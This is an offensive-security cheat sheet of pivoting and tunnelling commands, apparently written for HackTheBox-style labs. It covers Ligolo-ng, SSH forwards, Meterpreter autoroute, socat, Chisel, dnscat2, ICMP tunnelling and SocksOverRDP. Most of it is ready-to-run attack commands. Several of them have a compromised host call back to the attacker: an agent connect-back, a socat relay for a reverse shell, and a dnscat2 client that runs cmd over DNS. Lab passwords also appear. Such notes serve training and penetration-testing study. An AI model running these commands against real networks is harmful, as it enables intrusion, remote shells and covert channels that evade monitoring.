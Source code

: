 ```
# Ping sweep with various methods
run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23 # MSF

for i in {1..254} ;do (ping -c 1 172.16.1.$i | grep "bytes from" &) ;done # Linux

for /L %i in (1 1 254) do ping 10.10.10.%i -n 1 -w 100 | find "Reply" # cmd

1..254 | % {"196.168.210.$($_): $(Test-Connection -count 1 -comp 172.16.5.$($_) -quiet)"} # Powershell
```
---
### Ligolo-ng

```
sudo ip tuntap add user kali mode tun test  
sudo ip link set test up
```
![](https://miro.medium.com/v2/resize:fit:828/format:webp/0*RXnmw5quC8BgOI18.png)

```
ligolo-ng -selfcert
```
Download the _agent.exe_ file to our `Target Machine`.
```
. .\agent.exe -connect <attacker machine>:11601 -ignore-cert
```

After acquiring session we can start to interact with it.
```
ligolo-ng »  session
ligolo-ng »  start

$ ip route add <target cidr> dev ligolo
```
We can confirm the new route using `ip route`
![](https://miro.medium.com/v2/resize:fit:875/0*1nu4CyUduzzCo_-z.png)
**For Double Pivot**
On the attacker machine, we have to create a listener to send the second host traffic to the proxy server and connect through a tunnel:
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp  

listener_list
```
Run This on the second victim machine:
```
. .\agent.exe -connect <ip of first victim>:11601 -ignore-cert
```
After acquiring session we can start to interact with it.
```
ligolo-ng »  session
ligolo-ng »  start

$ ip route add <target cidr> dev ligolo
```
The above steps can be repeated for each hop.


**Port Forwarding to Attacker Machine**
```
listener_add --addr 0.0.0.0:<victim port> --to 127.0.0.1:<attacker port> --tcp  
```
---
### Dynamic Port Forwarding SSH and SOCKS Tunneling

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/1b6c00ee-569f-4721-b746-903f66743426)
```
# Local port forward
ssh -L 1234:localhost:3306 Ubuntu@10.129.202.64


sudo ssh -L 1234:localhost:8011 -i id_rsa james@runner.htb

# Multiple local port forward
ssh -L 1234:localhost:3306 8080:localhost:80 ubuntu@10.129.202.64

# Confirm port forward
netstat -antp | grep 1234
```

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/b0cbbc78-327c-415f-a882-c5023a93efa0)
```
# Dynamic port forwarding
ssh -D 9050 ubuntu@10.129.202.64

# Route traffic through porxychains
proxychains nmap -v -sn 172.16.5.1-200
proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

### Remote/Reverse Port Forwarding with SSH

![image](https://github.com/0x4rs3nic/Cheatsheets/assets/150775096/3dc9c1bd-5311-439f-a82f-e6209304d095)


```
ssh -R <InternalIPofPivotHost>:8080:0.0.0.0:8000 ubuntu@<ipAddressofTarget> -vN
```


---
### Meterpreter Tunneling & Port Forwarding

```
# Set up SOCKS proxy with MSF
use auxiliary/server/socks_proxy
socks4 	127.0.0.1 9050 # Add line to conf file
# START THE PROXY AND SET TO 4a

# Use autoroute for pivoting 
use post/multi/manage/autoroute
run autoroute -s 172.16.5.0/23 # Add route
run autoroute -p # List active routes

# Create local forward from MSF
portfwd add -l 3300 -p 3389 -r 172.16.5.19
portfwd add -R -l 8081 -p 1234 -L 10.10.14.18 # Reverse
```
---
### Using Socat

```
# Redirect reverse shell to attack host (forwards packets to attack host)
socat TCP4-LISTEN:8080,fork TCP4:10.10.14.18:80

# Redirect bind shell to attack host (forward packets to Windows Host)
socat TCP4-LISTEN:8080,fork TCP4:172.16.5.19:8443
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/d69cc998-d7f5-465e-82fe-61fba8605685/Untitled/w=1920,quality=80)

### Pivoting around a Network

```
# With Plink
plink -D 9050 ubuntu@10.129.15.50

# With SSHuttle
sudo sshuttle -r ubuntu@10.129.202.64 172.16.5.0/23 -v

# With rpivot
python2.7 server.py --proxy-port 9050 --server-port 9999 --server-ip 0.0.0.0
python2.7 client.py --server-ip 10.10.14.18 --server-port 9999 # From targets
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

```
# Using netsh.exe
netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=10.129.15.150 connectport=3389 connectaddress=172.16.5.25
netsh.exe interface portproxy show v4tov4

# Then connect to the machine through the pivot
xfreerdp /v:10.129.42.198:8080 /u:victor /p:pass@123
```

![](https://images.spr.so/cdn-cgi/imagedelivery/j42No7y-dcokJuNgXeA0ig/365b73d6-4df5-4651-9713-3cf1877cb4ad/Untitled/w=1920,quality=80)

---
### DNS Tunneling

- https://github.com/iagox86/dnscat2
- https://github.com/lukebaggett/dnscat2-powershell

```
# Server side 
sudo ruby dnscat2.rb --dns host=10.10.14.18,port=53,domain=inlanefreight.local --no-cache

# Client side (with powershell)
Import-Module .\dnscat2.ps1
Start-Dnscat2 -DNSserver 10.10.14.18 -Domain inlanefreight.local -PreSharedSecret 0ec04a91cd1e963f8c03ca499d589d21 -Exec cmd

# Enter session 
window -i [id]
```

### SOCKS5 Tunneling with Chisel

**Chisel Pivot**

```
# Chisel server on pivot host
.\chisel.exe server -v -p 1234 --socks5

# Connect to the pivot host
./chisel client -v solarlab.htb:1234 socks

# Proxychains config file
tail -f /etc/proxychains.conf
```

**Chisel Reverse Pivot**

```
# Chisel server on attack host
sudo ./chisel server --reverse -v -p 1234 --socks5

# Chisel client on pivot host
./chisel client -v painters.htb:1234 R:socks
```

### ICMP Tunneling

- https://github.com/utoni/ptunnel-ng

```
# ptunnel server on target host
sudo ./ptunnel-ng -r10.129.202.64 -R22

# Connect from attack host
sudo ./ptunnel-ng -p10.129.202.64 -l2222 -r10.129.202.64 -R22

# Tunnel SSH through ICMP
ssh -p2222 -lubuntu 127.0.0.1
```

### RDP and SOCKS Tunneling with SocksOverRDP

- https://github.com/nccgroup/SocksOverRDP/releases
- https://www.proxifier.com/download/#win-tab

```
# Load SocksOverRDP dll on pivot host
regsvr32.exe SocksOverRDP-Plugin.dll

# Connect to other host and start server
SocksOverRDP-Server.exe

# Configure SOCKS profile on port 1080 
# RDP to wanted host
```

